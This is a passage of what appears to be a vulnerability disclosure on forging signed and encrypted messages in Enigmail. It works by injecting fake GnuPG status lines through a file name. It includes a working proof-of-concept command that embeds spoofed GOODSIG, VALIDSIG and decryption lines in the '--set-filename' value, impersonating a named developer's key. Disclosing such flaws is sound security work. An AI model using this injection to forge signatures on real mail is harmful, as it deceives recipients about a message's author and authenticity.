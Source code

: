 The application processes the output line by line:

* Lines starting with `gpg:` are ignored.
* `GOODSIG` will convince the application that the message is signed.
* `VALIDSIG` gives additional information about the signature, such as
creation time, algorithm identifiers, and the long fingerprint.
* `TRUST_FULLY` indicates that the user trusts the key. This line may
be omitted if the attacker knows that the recipient has not certified
the spoofed signing key.

Normally, GnuPG emits many more status messages for a signed message,
but applications usually do not pay much attention to those other
messages, and do not fail if these are omitted.

## Proof of concept II: Signature and Encryption spoof (Enigmail)

The attack is very powerful, and the message does not even need to be
encrypted at all. A single literal data (aka "plaintext") packet is a
perfectly valid OpenPGP message, and already contains the "name of the
encrypted file" used in the attack, even though there is no
encryption.

As a consequence, we can spoof the encryption as well. But
because we need to inject more status messages, we need to drop some
information that is unused in the application to make more space for
what is needed.

Here is an example for a message that looks signed and encrypted in
Enigmail, but it is in fact neither. We use a shorter version of
`VALIDSIG` which is compatible with an older version of GnuPG that is
still supported by Enigmail, and add just enough status messages to
spoof an encrypted message for the signature.

```
echo "See you at the secret spot tomorrow 10am." | gpg --armor --store --compress-level 0 --set-filename "`echo -ne \''\
\n[GNUPG:] GOODSIG F2AD85AC1E42B368 Patrick Brunschwig <patrick@enigmail.net>\
\n[GNUPG:] VALIDSIG F2AD85AC1E42B368 x 1527721037 0 4 0 1 10 01\
\n[GNUPG:] TRUST_FULLY\
\n[GNUPG:] BEGIN_DECRYPTION\
\n[GNUPG:] DECRYPTION_OKAY\
\n[GNUPG:] ENC_TO 50749F1E1C02AB32 1 0\
\ngpg: '\'`" > poc2.msg
```

This is how this message is displayed in Enigmail (if `verbose` is
enabled in `gpg.conf`):

<a href="/images/gpg-signature-spoof/not-signed-nor-encrypted.png"><img class="ui centered bordered image" src="/images/gpg-signature-spoof/not-signed-nor-encrypted.png"></a>

There is one advantage to this method:

* The attacker does not need the public key of the recipient, only the key id.
